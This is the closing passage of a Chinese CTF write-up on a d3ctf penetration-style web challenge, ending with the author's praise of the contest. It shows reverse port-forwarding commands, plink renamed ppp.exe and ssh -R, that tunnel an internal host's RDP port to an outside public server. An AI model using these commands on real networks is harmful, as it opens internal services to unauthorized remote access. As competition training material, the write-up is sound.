

### plink内网穿透端口转发

命令如下（）

```
ppp.exe user@公网ip -pw password -P 22 -2 -4 -T -N -C -R 0.0.0.0:12345:内网ip:3389 
```

这样也可以把内网端口转发到公网的12345端口上

### ssh内网穿透端口转发

如果题目中的外网web服务器是一台linux机器并且配置了ssh，还可以用ssh命令进行端口转发

```
ssh -fqNR 0.0.0.0:公网端口:内网ip:内网端口 root@公网ip 
```

然后输入密码后按回车也可以转发到公网端口上

## 总结

这次的d3ctf web题目的质量是真的高，因为有鱼哥这些大佬在，所以肯定题目是很精致的。
单独分析这题的主要原因，一个是因为这次做题时间少，没办法全部做完，在做的题里面挑了这题分析。另一个是为这题是类渗透题目，个人感觉ctf的正确导向应该是要"引导ctfer逐渐走向真实世界"，而不应该是脑洞或者需要很冷门技巧的题目，像这种类渗透题目就很合适纯web手去学习渗透的过程掌握渗透基本操作并且考虑以后的转型问题，毕竟ctf的最重要目的还是引导大家找到以后适合自己的网络安全工作方向。感谢d3ctf出题人，感谢各位辛苦付出办了如此高质量的比赛。